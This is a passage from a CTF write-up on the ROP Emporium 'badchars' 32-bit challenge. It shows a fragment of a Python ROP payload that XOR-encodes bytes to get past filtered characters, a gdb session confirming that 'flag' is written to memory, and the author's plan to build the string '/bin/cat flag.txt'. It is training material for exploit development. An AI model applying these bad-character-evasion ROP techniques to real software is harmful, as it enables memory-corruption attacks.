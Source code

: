 ```python
payload += xor
payload += pop_ex
payload += p32(bss_addr+2)
payload += p32(66)
payload += xor
payload += pop_ex
payload += p32(bss_addr+3)
payload += p32(66)
payload += xor

print payload
```
With this script I should hopefully be able to write and xor successfully.
```
$ gdb ./badchars32 -q
Reading symbols from ./badchars32...(no debugging symbols found)...done.
(gdb) b *0x08048890
Breakpoint 1 at 0x8048890
(gdb) r < payload 
Starting program: /home/qh/CTF/ropemporium/badchars/32/badchars32 < payload
badchars by ROP Emporium
32bits

badchars are: b i c / <space> f n s
> 
Breakpoint 1, 0x08048890 in usefulGadgets ()
(gdb) c
Continuing.

Breakpoint 1, 0x08048890 in usefulGadgets ()
(gdb) 
Continuing.

Breakpoint 1, 0x08048890 in usefulGadgets ()
(gdb) 
Continuing.

Breakpoint 1, 0x08048890 in usefulGadgets ()
(gdb) nexti
0x08048892 in usefulGadgets ()
(gdb) x/s 0x0804a040
0x804a040 <stderr@@GLIBC_2.0>:  "flag"
(gdb)
```
Success!

##  Continuing the ropchain
So now let's fully write `/bin/cat flag.txt`.
So I have to write 5 times, and xor 17 times, I hope my buffer is long enough.
I remembered the DRY "rules". DRY stands for Don't Repeat Yourself. So I made a loop for adding the xor part to the payload. As well as a function that gives me what I need for the write instructions. 
